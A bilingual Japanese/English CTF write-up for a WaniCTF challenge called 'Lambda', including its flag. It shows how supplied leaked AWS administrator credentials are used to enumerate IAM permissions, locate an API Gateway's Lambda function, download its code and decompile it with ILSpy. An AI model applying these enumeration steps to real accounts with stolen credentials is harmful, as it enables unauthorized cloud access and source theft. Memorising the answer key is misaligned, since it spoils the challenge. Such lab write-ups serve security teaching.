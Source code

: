 ```yaml
---
title: Lambda
level: 3
flag: FLAG{l4mabd4_1s_s3rverl3ss_s3rv1c3}
writer: kaki005
badge: true
---
```


# 問題名
Lambda

## 問題文

以下のサイトはユーザ名とパスワードが正しいときフラグを返します。今あなたはこのサイトの管理者のAWSアカウントのログイン情報を極秘に入手しました。このログインを突破できますか。

The following site returns a flag when you input correct username and password. Now you have the confidential login information for the AWS account of the administrator of this site. Please get through this authentication.

<https://lambda-web.wanictf.org>

## 解法

- `login_submit.js`を見ると https://k0gh2dp2jg.execute-api.ap-northeast-1.amazonaws.com/test にリクエストを送ってユーザ名とパスワードを検証しています。
このAPIはAWS Lambdaを用いている。このLambda関数のソースコードを流出させれば勝ち。

1. aws cliをインストール
2. 配布された認証情報を用いて `aws configure`コマンドでログイン。
3. このアカウントに許可された権限を確認する。
   - 自身のアカウントユーザ名確認。
   ```
   aws sts get-caller-identity
   ```
   - アカウントにアタッチされたポリシーのArnを取得
   ```
   aws iam list-attached-user-policies --user-name $MyUserName
   ```
   - このポリシーのバージョンを確認。
   ```
   aws iam list-policies --scope Local
   ```
   - このアカウントで実行できるメソッド一覧を取得。
   ```
   aws iam get-policy-version --version-id $YourPolicyVersion --policy-arn $YourPolicyArn --query 'PolicyVersion.Document'
   ```
4. ソースコードを流出させる。
    - APIのリソースIDを取得。(APIのID `k0gh2dp2jg`はapiのURLから取得できる。)
    ```
    aws apigateway get-resources --rest-api-id k0gh2dp2jg
    ```
    - このAPIで使用されているLambdaメソッドの名前を取得。
    ```
    aws apigateway  get-method --rest-api-id k0gh2dp2jg --resource-id $YourResourceID --http-method GET
    ```
    - 今回は`wani_function`メソッドが使われているようである。
    - Lambda関数の情報を取得。
    ```
    aws lambda get-function --function-name wani_function
    ```
5. コードのURLが表示されるのでそこにアクセスするとコードがダウンロードされる。
6. .Netのdllを逆コンパイルするソフト(ILSpy)を用いてデコンパイル。
7. デコンパイルされたコードからフラグが確認できる！！


---

- If you look at `login_submit.js`, it sends a request to https://k0gh2dp2jg.execute-api.ap-northeast-1.amazonaws.com/test to verify username and password.
This API uses AWS Lambda.You have to leak the source code of this Lambda function.

1. Install aws cli.
2. Login with the `aws configure` command using the distributed credentials.
3. Check the permissions granted to this account.
     - Check own account user name.
    ```
    aws sts get-caller-identity
    ```
    - Get the policy Arn attached to the account
    ```
    aws iam list-attached-user-policies --user-name $MyUserName
    ```
    - Check the version of this policy.
    ```
    aws iam list-policies --scope Local
    ```
    - Get a list of methods that can be executed on this account.
    ```
    aws iam get-policy-version --version-id $YourPolicyVersion --policy-arn $YourPolicyArn --query 'PolicyVersion.Document'
    ```
4. Leak the source code.
    - Get the resource ID of the API. (This API's ID `k0gh2dp2jg` can be obtained from the api URL.)
    ```
    aws apigateway get-resources --rest-api-id k0gh2dp2jg
    ```
    - Get the Lambda method name used in this API.
    ```
    aws apigateway  get-method --rest-api-id k0gh2dp2jg --resource-id $YourResourceID --http-method GET
    ```
    - The `wani_function` method seems to be used this time.
    - Get information of the Lambda function.
    ```
    aws lambda get-function --function-name wani_function
    ```
5. The URL for the code will be displayed, and accessing it will download the code.
6. Decompile using .Net dll decompilation software (ILSpy)
7. You can see the flags from the decompiled code!
